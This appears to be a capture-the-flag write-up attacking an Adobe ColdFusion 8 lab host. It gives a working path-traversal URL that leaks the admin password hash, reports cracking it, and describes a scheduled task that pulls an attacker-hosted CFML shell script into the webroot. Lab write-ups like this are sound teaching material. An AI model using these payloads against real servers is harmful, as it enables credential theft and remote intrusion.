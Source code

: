 Opening port 8500 with a browswer shows two folders /CFIDE and /cfdocs

```
$ curl http://10.10.10.11:8500
<html>
<head>
<title>Index of /</title></head><body bgcolor="#ffffff">
<h1>Index of /</h1><br><hr><pre><a href="CFIDE/">CFIDE/</a>               <i>dir</i>   03/22/17 08:52 μμ
<a href="cfdocs/">cfdocs/</a>              <i>dir</i>   03/22/17 08:55 μμ
</pre><hr></html>  
```

From this we can deduct it is a Coldfusion site.

Browsing around get us to page http://10.10.10.11:8500/CFIDE/administrator/ with a login prompt to Adobe Coldfusion 8 Administrator.

## Vulnerability analysis

Coldfusion 8 is vulnerable to local file disclosure (LFD).

## Initial intrusion

### Coldfusion 8 (APSB10-18)

Credits to: https://pentest.tonyng.net/attacking-adobe-coldfusion/ and https://nets.ec/Coldfusion_hacking

Link http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en exploits the LFD vulnerability.

Result displayed on the login page: 

#Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true 

Using a rainbow tbale at crackstation.net provides the password hap*****.

Welcome to the Coldfusion Administrator - we are in. Time for a remote shell.

We need to go to the "Debugging & Logging / Scheduled Tasks" menu element, and add a scheduled task that would download our CFML script from our webserver to the Coldfusion's server's webroot.

#### cfexec - did not work

The script credit to: http://grutz.jingojango.net/exploits/ and direct link to the file http://grutz.jingojango.net/exploits/cfexec.cfm.

Fire up a webserver with the scriptin the root folder. Configure scheduled task with URL to it and File c:\inetpub\wwwroot. Check the 'Save output to a file' box.

The locale is in Greek, so the date and time format was a bit of a hassle. I had to go page Server Settings > Settings Summary to see the correct format, and do some copy-paste magic. Also the wwwroot directory is obtained from there. Is is also a good place to check the local time of the host for setting up the scheduling.
